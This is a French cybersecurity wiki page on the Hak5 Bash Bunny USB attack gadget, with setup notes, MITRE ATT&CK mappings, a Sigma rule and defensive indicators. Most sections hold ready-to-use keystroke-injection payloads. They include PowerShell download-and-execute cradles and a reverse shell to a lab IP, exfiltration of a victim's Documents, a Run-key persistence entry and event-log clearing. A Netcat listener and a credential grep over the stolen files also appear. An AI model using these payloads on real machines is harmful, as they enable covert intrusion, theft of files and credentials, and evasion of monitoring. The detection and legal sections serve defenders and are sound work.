

# 🐰 Bash Bunny — Le multi-vecteur USB (HID + réseau + stockage)

> [!info] **En 1 phrase**
> Une clé USB « quad-core » qui combine **injection HID**, **émulation de stockage**, **adaptateur réseau** et **port série** en un seul branchement — avec deux attaques sélectionnables par un switch physique.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Hak5 Bash Bunny (Mark I / Mark II) |
| Description | Plateforme d'attaque USB « multi-vecteurs » : injection clavier HID, stockage de masse, adaptateur réseau (RNDIS/ECM) et port série, sélectionnés par un switch physique à 2 positions |
| Catégorie | 🔌 USB / HID & Gadgets |
| Sous-catégorie | BadUSB / Keystroke injection / USB network implant |
| Fonction principale | Déclencher un payload (BunnyScript) au branchement pour obtenir un shell, exfiltrer des fichiers ou créer un point d'appui réseau |
| Type d'outil | Matériel (USB gadget autonome) + langage de scripts (BunnyScript) |
| Licence | Firmware propriétaire Hak5 ; payloads publiés sous licence Hak5 / communautaire |
| Open source / propriétaire | Firmware propriétaire ; dépôt de payloads open source |
| Langage(s) | BunnyScript (sous-ensemble Duckyscript 3 + Bash), C (firmware embarqué) |
| Développeur / organisation | Hak5 (Darren Kitchen & équipe) |
| Projet officiel | Bash Bunny Mark II |
| Dépôt officiel | https://github.com/hak5/bashbunny-payloads |
| Documentation officielle | https://docs.hak5.org/bash-bunny/ |
| Date de création | 2017 (Mark I), 2023 (Mark II) |
| État du projet | actif |
| Dernière version connue | Firmware 1.7 (Mark II) — téléchargement sur https://downloads.hak5.org/bunny |
| Systèmes compatibles | Cible : Windows, Linux, macOS (via USB) ; gestion : Windows/Linux/macOS |

> [!note] Pour vérifier / compléter
> Vérifier la dernière version de firmware sur le portail officiel https://downloads.hak5.org/bunny avant chaque déploiement. Le Mark I ne doit **pas** flasher le firmware 1.7 (réservé au Mark II).

---

## 🎯 Concept

Le Bash Bunny (Hak5) est une plateforme d'attaque USB qui se présente comme une **clé USB / câble de charge classique** mais embarque un système embarqué complet. Contrairement au [[Outil - USB Rubber Ducky]] (HID seul), il peut activer **simultanément** plusieurs modes USB : `HID` (clavier émulé), `STORAGE` (partition de stockage pour exfiltration directe), `NET` (adaptateur Ethernet USB en RNDIS/ECM — le gadget devient un point d'accès au réseau de la cible) et `SERIAL` (port série pour debug/backdoor). Cette combinaison en fait un outil « quad-core » : une seule insertion suffit pour ouvrir un canal de commande ET exfiltrer des données.

Les payloads sont des scripts **BunnyScript** (`payload.txt`) stockés sur la microSD dans `payloads/switch1/` et `payloads/switch2/`, sélectionnés par un **switch d'armement** physique : le mode 2 permet par exemple une attaque « propre » (chargement autorisé) et le mode 1 une attaque offensive. Le langage intègre la frappe clavier (via `Q` / `QUACK` et le Duckyscript) et des commandes de haut niveau : `ATTACKMODE`, `LED`, `RUN WIN`, `EXFIL`. Idéal pour l'**exfiltration physique de fichiers**, la **persistance** et les **tests de contrôle d'accès physique**. Le Mark II ajoute une connexion USB-C, un bouton et des LED plus riches, et le support complet de Duckyscript 3 (variables, fonctions, boucles).



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Modes USB composite | Un périphérique USB peut annoncer plusieurs fonctions (classes) : `HID` (clavier), `STORAGE` (MSC), `NET` (RNDIS/ECM), `SERIAL` (CDC-ACM). Le Bash Bunny les combine à volonté via `ATTACKMODE` |
| RNDIS / ECM | Protocoles d'émulation réseau USB : RNDIS (Windows) et ECM (Linux/macOS) exposent un adaptateur Ethernet virtuel qui donne accès au LAN de la cible |
| HID keystroke injection | La cible traite le gadget comme un clavier légitime : les frappes programmées (`Q STRING ...`) sont acceptées sans authentification |
| BunnyScript | Langage hybride Duckyscript + Bash : `Q`/`QUACK` pour les frappes, commandes système pour le gadget lui-même (`ATTACKMODE`, `LED`, `EXFIL`, `RUN`) |
| Switch d'armement | Interrupteur physique à 2 positions qui sélectionne le dossier de payload : `payloads/switch1/` ou `payloads/switch2/` (anti-mauvaise-manipulation) |
| Mode arming | Mode de maintenance : le Bunny monte sa microSD comme clé USB pour éditer payloads et firmware (LED bleue clignotante) |
| LED feedback | Indicateur d'état : `SETUP`, `ATTACK`, `STAGE1/2`, `FINISH`, `FAIL` — permet de piloter un déploiement à distance |
| Exfiltration | Dossier `loot/` / exfil : les fichiers copiés sur la partition STORAGE sont récupérés au démontage, ou envoyés sur le réseau en mode NET |

---

## 🛠️ Installation

```bash
# 1. Mettre à jour le firmware (Mark II, version >= 1.7) :
#    - Télécharger l'archive depuis https://downloads.hak5.org/bunny (ne PAS extraire)
#    - Placer le switch en mode ARMING (vers la prise USB)
#    - Brancher : la microSD apparaît, copier le .tar.gz à la racine
#    - Éjecter proprement, rebrancher, attendre le flash (LED rouge/bleue)
#    - Vérifier la LED bleue clignotante lente = succès

# 2. Préparer la structure de la microSD (FAT32) :
#    payloads/
#      switch1/
#        payload.txt        # script BunnyScript principal
#        payload.sh         # script bash additionnel (optionnel)
#      switch2/
#        payload.txt

# 3. Récupérer les payloads officiels pour les adapter :
git clone https://github.com/hak5/bashbunny-payloads

# 4. Copier le payload choisi dans payloads/switch1/ puis éjecter
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **Mark I ≠ Mark II** : ne jamais flasher le firmware 1.7 sur un Mark I (rend le device inopérant). Le Mark II ne doit jamais être downgradé en dessous de 1.7.
> - Ne **pas extraire** le `.tar.gz` de firmware et ne pas le renommer, sous peine de boot loop sur firmwares 1.0–1.3.
> - Ne jamais débrancher pendant le flash (10 minutes max, LED rouge clignotante).
> - Windows Defender peut bloquer les pilotes RNDIS d'adaptateurs USB réseau : prévoir une autorisation GPO en test autorisé.

---

## ⚙️ Configuration

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `ATTACKMODE <mode>` | Définit les classes USB actives | `HID`, `STORAGE`, `NET`, `SERIAL`, combinaisons | Détermine les capacités du gadget | `ATTACKMODE HID STORAGE NET` |
| `LED <state>` | Contrôle la LED de feedback | `SETUP`, `ATTACK`, `STAGE1`, `STAGE2`, `FINISH`, `FAIL`, `CLEAN` | Communication d'état | `LED FINISH` |
| `Q DELAY <ms>` | Pause entre les frappes | millisecondes | Fiabilité du timing HID | `Q DELAY 1500` |
| `RUN WIN <cmd>` | Raccourci `GUI r` + saisie | commande Windows | Ouvre une console puis tape | `RUN WIN powershell -ep bypass` |
| `EXFIL USB` / `EXFIL NET` | Récupère le dossier d'exfil | `USB`, `NET`, `SERIAL` | Canal d'exfiltration | `EXFIL USB` |
| `USB_STICK` | Monte/démonte la partition STORAGE | `ON` / `OFF` | Cache la partition en cas d'inspection | `USB_STICK OFF` |
| Dossier de payload | Sélection du payload actif | `payloads/switch1/`, `payloads/switch2/` | Choix par switch physique | `payloads/switch2/payload.txt` |

---

## 🏗️ Architecture interne

- **SoC / plateforme** : le Mark II embarque un SoC basse consommation exécutant Linux ; le Mark I utilise un microcontrôleur ARM. Le firmware expose une couche **BunnyScript** interprétée.
- **MicroSD** : stocke les payloads (`payloads/switch1/`, `payloads/switch2/`), le dossier `loot/` (exfil) et les scripts auxiliaires.
- **Interpréteur BunnyScript** : lit `payload.txt`, exécute les commandes Duckyscript via la couche HID et les commandes système via un shell bash embarqué (`payload.sh`).
- **Stack USB composite** : le firmware configure les endpoints USB pour les classes sélectionnées par `ATTACKMODE` — HID (rapports 8 octets boot protocol), MSC (partition FAT32), CDC-ECM/RNDIS (réseau), CDC-ACM (série).
- **Flux d'exécution** : boot (< 1 s) → lecture du switch → montage des modes USB → exécution du payload → LED `FINISH` → maintien des services (RNDIS, serveur C2 local).
- **Feedback LED** : piloté par les instructions `LED`, reflet de l'avancement du payload pour un déploiement en équipe.

---

## ⌨️ Commandes

### Commandes principales

```bash
# Syntaxe générique d'un payload BunnyScript (payload.txt)
ATTACKMODE <mode1> [mode2] [mode3]
LED <state>
Q <commande duckyscript>
RUN WIN <commande>
EXFIL <canal>
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `ATTACKMODE HID` | Émule un clavier USB | Frappes acceptées par l'OS cible |
| `ATTACKMODE STORAGE` | Émule une clé USB | Partition montée sur la cible, écriture possible |
| `ATTACKMODE NET` | Émule un adaptateur Ethernet USB | Interface RNDIS/ECM visible, accès au LAN |
| `ATTACKMODE SERIAL` | Émule un port série | Console UART/backdoor |
| `ATTACKMODE HID STORAGE NET` | Combinaison parallèle | Clavier + stockage + réseau simultanés |
| `LED SETUP` / `LED ATTACK` / `LED FINISH` | État de la LED | Feedback d'exécution |
| `Q GUI r` | Raccourci « Exécuter » (Windows) | Boîte de dialogue run |
| `Q STRING <texte>` / `Q ENTER` | Frappe / validation | Saisie d'une commande |
| `RUN WIN powershell -w hidden ...` | `GUI r` + frappe | Console cachée lancée |
| `EXFIL USB` / `EXFIL NET` | Récupère `loot/` | Fichiers exfiltrés |
| `USB_STICK OFF` | Démonte la partition STORAGE | Masquage après exfil |

### Commandes avancées

```bash
# Exfil par RNDIS : reverse shell vers l'attaquant via le réseau fantôme
ATTACKMODE HID NET
Q GUI r
Q DELAY 400
Q STRING powershell -w hidden -nop -c "$c=New-Object Net.Sockets.TCPClient('10.10.20.15',4444);..."
Q ENTER
```

> [!note] À vérifier
> Adapter `DELAY` à la plateforme cible (boot, driver, fast startup) ; IP/ports fictifs de laboratoire.

---

## 🎚️ Options et flags

| Option / argument | Description | Exemple | Niveau |
|---|---|---|---|
| `-h` / `--help` | Aide en ligne du payload | `Q STRING bunny -h` | Basic |
| `ATTACKMODE` | Sélection des classes USB | `ATTACKMODE HID STORAGE` | Basic |
| `Q DELAY <ms>` | Tempo de frappe | `Q DELAY 1000` | Basic |
| `RUN` | Raccourci run + frappe | `RUN WIN powershell -ep bypass` | Basic |
| `EXFIL` | Canal d'exfiltration | `EXFIL USB` | Intermediate |
| `USB_STICK` | Contrôle de la partition | `USB_STICK OFF` | Intermediate |
| `LED` | États personnalisés | `LED STAGE1` | Intermediate |
| `DEFAULT_DELAY` | Délai inter-commandes | `DEFAULT_DELAY 50` | Advanced |
| `WAIT_FOR_BUTTON` | Attend un appui bouton (Mark II) | `WAIT_FOR_BUTTON` | Advanced |
| `HID_ATTACKS` / variables | Programmation Duckyscript 3 | `$ip = "10.10.20.15"` | Expert |

> [!tip] Options les plus utiles au quotidien
> `ATTACKMODE HID STORAGE` (le duo de base), `LED SETUP/ATTACK/FINISH` (feedback), `RUN WIN` (aller vite), `EXFIL USB` (récupération à froid), `Q DELAY` (fiabiliser les timings).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : ouvrir notepad et taper un message (test d'installation)
LED SETUP
ATTACKMODE HID
LED ATTACK
Q GUI r
Q DELAY 400
Q STRING notepad.exe
Q ENTER
Q DELAY 800
Q STRING Hello from Bash Bunny
LED FINISH
```

### Intermediate

```bash
# Objectif : reverse shell PowerShell « sans fichier »
LED SETUP
ATTACKMODE HID STORAGE
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
Q ENTER
Q DELAY 3000
LED FINISH
```

### Advanced

```bash
# Objectif : keylogger + exfil réseau vers la partition STORAGE
LED SETUP
ATTACKMODE HID STORAGE
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "$d=(Get-Volume | ? DriveType -eq 'Removable').DriveLetter+':\'; $k=Join-Path $env:TEMP 'k.ps1'; (New-Object Net.WebClient).DownloadFile('http://10.10.20.15/k.ps1',$k); iex $k; Start-Sleep 30; Copy-Item $k $d"
Q ENTER
Q DELAY 35000
USB_STICK OFF
LED FINISH
```

### Expert

```bash
# Objectif : payload Duckyscript 3 conditionnel avec variables et fonctions
DEFINE LHOST 10.10.20.15
FUNCTION OPEN_RUN
    Q GUI r
    Q DELAY 400
END_FUNCTION
FUNCTION SHELL
    Q STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://LHOST/shell.ps1')"
    Q ENTER
END_FUNCTION
LED SETUP
ATTACKMODE HID STORAGE NET
LED ATTACK
OPEN_RUN
SHELL
LED FINISH
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Préparer la microSD** — `payloads/switch1/payload.txt` (attaque) et `payloads/switch2/payload.txt` (payload « propre ») pour la parade en contrôle physique.
2. **Mettre à jour le firmware** — mode ARMING, copier l'archive de https://downloads.hak5.org/bunny à la racine, rebrancher, attendre le flash (LED rouge/bleue puis bleue lente).
3. **Positionner le switch** — sur le slot 1 ; le Bunny boote en moins d'une seconde à l'insertion.
4. **Écouter côté attaquant** — `nc -lvnp 4444` sur le C2 ou serveur HTTP pour l'exfil.
5. **Insérer le Bunny** — LED `SETUP` → `ATTACK` → `FINISH` ; valider shell et/ou exfil.
6. **Nettoyer** — retirer le gadget, effacer les artefacts (Event Viewer, logs PowerShell, fichiers temp), remettre le switch sur le slot neutre.

---

## 🎬 Scénarios avancés

### Scénario 1 : Exfiltration des Documents vers la partition STORAGE

Le Bunny s'annonce comme clavier + clé USB : les Documents sont compressés puis copiés sur la partition accessible en écriture.

```bash
LED SETUP
ATTACKMODE HID STORAGE
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "$d=(Get-Volume | ? DriveType -eq 'Removable').DriveLetter + ':\'; Compress-Archive C:\Users\victime\Documents\* C:\Windows\Temp\docs.zip -Force; Copy-Item C:\Windows\Temp\docs.zip $d"
Q ENTER
Q DELAY 4000
USB_STICK OFF
LED FINISH
```

L'exfil est « à froid » (pas de réseau) : la seule trace laissée est l'archive temporaire et les artefacts PowerShell — à supprimer par un payload de nettoyage ou une deuxième passe.

### Scénario 2 : HID + réseau fantôme (RNDIS + reverse shell)

Le Bunny énumère clavier ET adaptateur réseau : pendant que la victime tape, le réseau USB sert de canal d'exfil ou de pivot.

```bash
LED SETUP
ATTACKMODE HID NET
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "$r=(New-Object Net.WebClient); $r.DownloadString('http://10.10.20.15/shell.ps1') | iex"
Q ENTER
Q DELAY 3000
LED FINISH
```

Le réseau RNDIS donne à l'attaquant un point d'appui dans le LAN de la cible : relais DNS, [[Outil - Responder]], pivot.

### Scénario 3 : Persistance + nettoyage automatique

```bash
# Installe une persistance (Run key) puis masque la partition et nettoie les logs
ATTACKMODE HID STORAGE
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "New-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name Upd -Value 'powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.20.15/p.ps1\")' -Force; wevtutil cl Microsoft-Windows-PowerShell/Operational"
Q ENTER
Q DELAY 2000
USB_STICK OFF
LED CLEAN
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Insertion physique d'un payload USB sur un poste (dépose, accès physique) |
| Execution | Frappe clavier automatisée (Duckyscript) → shell PowerShell |
| Exfiltration | Copie de fichiers sur la partition STORAGE (exfil à froid) ou via réseau RNDIS |
| Command & Control | Adaptateur réseau fantôme (RNDIS) comme canal de commande local |
| Persistence | Payloads installant des Run keys, services ou schedules |
| Defense Evasion | `USB_STICK OFF`, effacement de logs, masquage du canal réseau |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Hardware Additions | T1200 | Le gadget est physiquement branché sur un poste | Contrôle des périphériques USB, EDR | Allow-list USB, ports physiques verrouillés |
| Execution | Windows Command Shell | T1059.003 | Payloads lancent `cmd`/PowerShell via HID | Process creation, Sysmon | Application Control, execution policy |
| Execution | PowerShell | T1059.001 | Download cradle `IEX(New-Object ...)` | Script block logging, AMSI | PowerShell Constrained Language Mode |
| Exfiltration | Exfiltration Over Physical Medium | T1052 | Copie vers la partition STORAGE | DLP, contrôle des lecteurs amovibles | Blocage du stockage amovible en écriture |
| Command and Control | Application Layer Protocol | T1071 | Canal HTTP(S) vers le C2 via RNDIS | Proxy, supervision DNS/HTTP | Filtrage sortant, segmentation |
| Discovery | System Information Discovery | T1082 | Payloads énumèrent l'hôte (whoami, hostname) | EDR comportemental | Monitoring des commandes système |
| Persistence | Boot or Logon Autostart Execution | T1547.001 | Installation de Run keys | Sysmon Event ID 13 | Supervision du registre Run |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Le Bash Bunny est avant tout une matérialisation de T1200 (Hardware Additions) ; les techniques suivantes dépendent du payload embarqué.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Périphérique composite inconnu (clavier + stockage + réseau) | Énumération USB anormale au branchement (Event ID 6416) |
| Nouvelle interface réseau RNDIS/ECM | `Get-NetAdapter` liste une NIC inconnue après branchement |
| Frappe clavier à vitesse inhumaine au branchement | Modèle comportemental HID (EDR) |
| `powershell.exe` démarré à t0 après branchement USB | Process creation corrélé à l'événement USB |
| Écritures sur un lecteur amovible | Windows Security 4656/4663 sur volume amovible |
| Fichier `payload.txt` / archive `.tar.gz` sur une microSD | Inspection des supports amovibles |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : nouveau périphérique HID + activité PowerShell immédiate
title: USB HID Insertion Followed by PowerShell Launch
id: aaa2b901-b6ee-4c7c-9a3d-7f1e2d0c1f00
status: experimental
logsource:
    product: windows
    service: security
detection:
    selection_usb:
        EventID: 6416
        DeviceDescription|contains: 'HID'
    selection_ps:
        EventID: 4688
        NewProcessName|endswith: '\powershell.exe'
    timeframe: 10s
    condition: selection_usb and selection_ps
falsepositives:
    - Insertion légitime d'un clavier puis ouverture d'une console
level: medium
```

> [!note] À vérifier
> Exemples pédagogiques à adapter (IDs, seuils) à l'environnement avant déploiement SIEM.

---

## 🤖 Automatisation

```bash
# Bash — préparation d'un payload avec variable d'environnement
cat > payload.txt <<'EOF'
LED SETUP
ATTACKMODE HID STORAGE
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://${LHOST}/shell.ps1')"
Q ENTER
Q DELAY 3000
LED FINISH
EOF
```

> [!note] Idée
> Générer plusieurs variantes en boucle (Python/PowerShell) en paramétrant l'hôte C2 et la porteuse, puis écrire chaque fichier dans `payloads/switchN/`.

---

## 📤 Output et parsing

Le Bash Bunny ne produit pas de sortie « CLI » classique : ses sorties sont le **log d'exécution** (sur la microSD), le **contenu du dossier `loot/`** et le **feedback LED**.

```bash
# En mode ARMING : inspecter la microSD
ls -la /media/user/BUNNY/loot/
cat /media/user/BUNNY/payloads/switch1/payload.txt

# Depuis le réseau fantôme (poste attaquant) : exfiltration des fichiers
scp -r user@172.16.64.1:/loot/ ./loot_bunny/
```

```bash
# Traitement de la sortie exfil (exemple : analyse des identifiants)
find loot_bunny -name "*.txt" -exec strings {} \; | grep -E "user|pass|login" | sort -u
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - USB Rubber Ducky]] — même écosystème Duckyscript, HID seul
- [[Outil - O.MG Cable]] — injecteur HID WiFi, complémentaire en persistance longue
- [[Outil - P4wnP1 A.L.O.A.]] — Raspberry Pi Zero W en gadget USB équivalent
- [[Outil - Flipper Zero (USB & radio)]] — BadUSB + RFID/NFC/radio en poche
- [[Outil - Metasploit]] — réception du reverse shell (`exploit/multi/handler`)
- [[Outil - Responder]] — empoisonnement LLMNR/NBT-NS via le réseau RNDIS
- [[Outil - Netcat]] — écoute du canal d'exfil
- [[Outil - PowerShell Empire]] — C2 PowerShell après l'insertion

```text
Bash Bunny → (HID) PowerShell download cradle → Metasploit handler → Empire
Bash Bunny → (NET) RNDIS → Responder → hash NTLMv2 → hashcat
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| USB Rubber Ducky | Simple, ~1000 mots/min, petit | HID seul, pas de réseau/stockage natif | Injection pure |
| O.MG Cable | Câble innocent, WiFi, keylog hardware | Coût élevé, firmware tiers | Ingénierie sociale longue durée |
| P4wnP1 A.L.O.A. | Open source, modifiable, HID+net+BT | Nécessite RPi Zero W, montage maison | Gadget DIY complet |
| Flipper Zero | BadUSB + RFID + radio + IR | BadUSB limité, pas de réseau USB | Suite « couteau suisse » |
| USB Host Shield | Sniffing passif de clavier | Analyse matérielle, non autonome | Keylogger matériel |

> **Quand utiliser un Rubber Ducky plutôt que le Bash Bunny ?** Pour une injection HID pure, rapide et discrète (une seule classe, ~1000 mots/min), le Ducky suffit. Le Bash Bunny devient pertinent dès qu'il faut **en parallèle** un canal réseau, un stockage d'exfil ou un port série.

---

## ⚡ Performance

- **Vitesse d'injection** : le Mark II atteint des cadences de frappe compatibles Duckyscript 3 (~890 frappes/s selon les benchmarks Hak5) ; à moduler avec `DEFAULT_DELAY` pour passer les EDR.
- **Boot time** : moins d'une seconde à l'insertion (payload déclenché quasi instantanément).
- **Modes parallèles** : HID + STORAGE + NET simultanés sans perte notable (USB 2.0 High-Speed).
- **Exfil USB** : copie vers la partition STORAGE limitée par le débit USB (~30-40 Mo/s en pratique).
- **Autonomie** : alimenté par le port USB de la cible ; pas de batterie (un poste éteint neutralise l'attaque).

> [!note] À vérifier
> Chiffres issus des benchmarks Hak5 / retours communautaires ; dépendent du firmware et de la cible.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : `RUN WIN` ouvre « Exécuter » mais la commande échoue

- **Cause** : timing trop court, UAC, disposition clavier FR.
- **Solution** : augmenter `Q DELAY`, tester la disposition (`-l fr` à la compilation), utiliser un fallback `CTRL SHIFT ESC`.
- **Vérification** : rejouer le payload sur VM avec un `DELAY` de 1500 ms.

#### Problème : la lettre de lecteur STORAGE est introuvable

- **Cause** : la lettre n'est pas toujours `D:` (varie selon la cible).
- **Solution** : résoudre le volume amovible en PowerShell (`Get-Volume`).
- **Vérification** : `Q STRING powershell ... $d=(Get-Volume | ? DriveType -eq 'Removable').DriveLetter`.

#### Problème : le réseau RNDIS n'apparaît pas sous Windows

- **Cause** : pilote RNDIS bloqué par GPO/Device Guard.
- **Solution** : utiliser le mode ECM (Linux/macOS) ou activer le pilote via GPO en lab.
- **Vérification** : `ipconfig /all` sur la cible après insertion.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : usage réservé aux tests autorisés (accord écrit). L'insertion d'un gadget USB sur une cible tierce est illégale sans mandat.
- **Perte/vol du matériel** : le contenu de la microSD (payloads, loot) est une fuite potentielle — chiffrer les payloads sensibles et vider `loot/` après chaque engagement.
- **Traces** : le payload laisse des artefacts Windows (Event 4688, PowerShell operational logs, Run keys) — planifier le nettoyage.
- **Données exfiltrées** : RGPD — ne collecter que les données dans le périmètre, les traiter avec précaution.
- **Firmware** : ne pas installer de firmwares tiers non vérifiés ; vérifier les checksums SHA256 officiels.

---

## ⚠️ Limitations

- **Pas de batterie** : un poste éteint ou une borne morte neutralise l'attaque.
- **Modes USB visibles** : `NET` (RNDIS) et `STORAGE` apparaissent dans le gestionnaire de périphériques — détectable par un SOC.
- **Dépendance au timing** : fast boot, Secure Boot et pilotes peuvent décaler les `DELAY`.
- **Clavier US par défaut** : sur cible FR (AZERTY), les `Q STRING` produisent des caractères erronés.
- **Firmware Mark I vs Mark II incompatibles** : ne pas mélanger les payloads/flashs.
- **Pas de sortie d'analyse native** : les résultats sont dans `loot/` et les logs, pas de rapport automatique.

---

## 📋 Cheatsheet

```bash
# Structure de la microSD
# payloads/switch1/payload.txt — attaque
# payloads/switch2/payload.txt — payload neutre

# Payload minimal : HID + reverse shell PowerShell
LED SETUP
ATTACKMODE HID STORAGE
LED ATTACK
Q GUI r
Q DELAY 500
Q STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
Q ENTER
Q DELAY 3000
LED FINISH

# Exfil USB
Q STRING powershell -w hidden -nop -c "$d=(Get-Volume|? DriveType -eq 'Removable').DriveLetter+':\';Copy-Item C:\Users\victime\Documents\* $d -Recurse"
Q ENTER

# Masquer la partition
USB_STICK OFF

# Écouter côté attaquant
nc -lvnp 4444
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Clé USB offensive multi-vecteurs : HID + stockage + réseau + série |
| **Quand l'utiliser ?** | Accès physique : exfiltration, reverse shell, point d'appui réseau |
| **Commande principale** | `ATTACKMODE HID STORAGE` + `Q STRING powershell ...` |
| **Alternative principale** | [[Outil - USB Rubber Ducky]] (HID), [[Outil - P4wnP1 A.L.O.A.]] (DIY) |
| **Concepts importants** | Modes USB composite, BunnyScript, RNDIS, switch d'armement, exfil |
| **Liens associés** | [[Outil - USB Rubber Ducky]] · [[Outil - O.MG Cable]] · [[Outil - Metasploit]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Périphérique composite inconnu (clavier + stockage + réseau) | Allow-list USB par VID/PID, blocage des gadgets composites en GPO |
| Nouvelle interface réseau RNDIS après branchement | Restreindre l'installation de pilotes d'adaptateurs USB réseau |
| Frappe clavier anormale au branchement | EDR comportemental HID, audit des processus `powershell.exe` |
| Partition de stockage montée en écriture | Contrôle des périphériques de stockage amovibles (GPO/BitLocker) |
| Fichiers copiés vers un lecteur amovible | DLP sur la copie vers périphériques amovibles |
| `payload.txt` retrouvé sur un support | Politique USB stricte, inspection des supports |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Exploiter le **slot 2** avec un payload « propre » (clavier + LED verte) : réflexe de discrétion en contrôle physique.
> - Résoudre **toujours** le volume amovible en PowerShell (`Get-Volume`) plutôt que d'utiliser une lettre de lecteur fixe.
> - Tester `ATTACKMODE` combiné sur plusieurs OS : le boot USB et le fast startup modifient les timings.
> - La LED donne l'état exact (`SETUP`/`ATTACK`/`FINISH`) : indispensable pour un déploiement à distance ou en équipe.

> [!warning] ⚠️ **Pièges**
> - **Ne pas flasher le firmware 1.7 sur un Mark I** ; ne pas downgrader un Mark II sous 1.7 (device inopérant).
> - Le mode `NET` modifie la configuration réseau de la cible (nouvelle NIC) : très visible pour un SOC.
> - Le boot Windows moderne (Secure Boot, WDAC) peut bloquer les pilotes de gadgets RNDIS.
> - Un payload « parfait » sur VM peut échouer sur la cible réelle (timing, disposition clavier, GPO).

---

## 📚 References

### Official

- Documentation officielle Bash Bunny : https://docs.hak5.org/bash-bunny/
- Dépôt officiel des payloads : https://github.com/hak5/bashbunny-payloads
- Portail de téléchargement (firmwares) : https://downloads.hak5.org/bunny
- Boutique officielle : https://shop.hak5.org/products/bash-bunny
- Wiki Bash Bunny : https://wiki.bashbunny.com/

### Security references

- MITRE ATT&CK T1200 — Hardware Additions : https://attack.mitre.org/techniques/T1200/
- MITRE ATT&CK T1059.003 — Windows Command Shell : https://attack.mitre.org/techniques/T1059/003/
- MITRE ATT&CK T1059.001 — PowerShell : https://attack.mitre.org/techniques/T1059/001/
- MITRE ATT&CK T1052 — Exfiltration Over Physical Medium : https://attack.mitre.org/techniques/T1052/
- SigmaHQ — règles de détection process creation : https://github.com/SigmaHQ/sigma

### Community

- Hak5 Forums — Bash Bunny : https://forums.hak5.org/forum/92-bash-bunny/
- Blog Didier Stevens — Bash Bunny : https://blog.didierstevens.com/category/bash-bunny
- HackTricks — Physical access / BadUSB : https://book.hacktricks.xyz/physical-attacks

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Protocole USB|🔌 Protocole USB]] · [[Outil - USB Rubber Ducky|🦆 USB Rubber Ducky]] · [[Techniques/LLMNR-NBT-NS Poisoning|📡 Poisoning réseau]] · [[Outil - P4wnP1 A.L.O.A.|🥧 P4wnP1]] · [[Outil - O.MG Cable|🔌 O.MG Cable]]
